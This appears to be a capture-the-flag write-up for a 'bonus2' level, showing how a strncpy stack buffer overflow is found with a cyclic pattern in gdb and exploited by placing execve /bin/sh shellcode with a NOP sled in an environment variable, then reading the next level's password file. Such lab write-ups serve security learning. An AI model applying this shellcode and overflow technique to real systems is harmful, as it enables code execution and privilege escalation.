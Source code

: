 # Bonus 2

`su bonus2 #579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245`

## Steps

We have a binary that takes 2 arguments: a name, and something else.
This uses `strncpy` again, we think we can reproduce the overflow using no `\0`. It will copy `40 chars` of the first argument.
Lets try that.

```bash
$ ./bonus2 0123456789012345678901234567890123456789 dd
Hyvää päivää 0123456789012345678901234567890123456789dd // Should only print the numbers
```

*Let's try with an overflow.*
```bash
(gdb) r 0123456789012345678901234567890123456789 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Program received signal SIGSEGV, Segmentation fault.
0x41366141 in ?? ()
```

We just have to *replace at the index to the address pointed to our shellcode*.
```bash
$ export SHELLCODE=$(python -c "print 100 * '\x90' + '\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80'")

$ /tmp/getenv SHELLCODE
0xbffff8af
```


```bash
./bonus2 0123456789012345678901234567890123456789 $(python -c "print 'Aa0Aa1Aa2Aa3Aa4Aa5' + '\xbf\xff\xf8\xaf'[::-1] + 'a7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag'")

$ cat /home/user/bonus3/.pass
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```
